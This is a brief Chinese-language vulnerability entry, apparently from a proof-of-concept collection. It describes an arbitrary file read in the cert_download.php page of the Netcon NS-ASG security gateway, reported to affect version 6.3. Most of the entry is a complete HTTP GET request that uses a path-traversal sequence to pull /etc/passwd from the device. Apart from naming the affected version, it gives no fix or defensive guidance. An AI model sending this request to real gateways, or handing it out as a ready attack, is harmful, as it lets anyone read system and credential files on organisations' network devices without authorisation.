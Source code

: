 # 网康 NS-ASG安全网关 任意文件读取漏洞


网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞.

poc：

```
GET /admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd HTTP/1.1
Host: 
```

测试NS-ASG 6.3版本受影响。

via:peiqi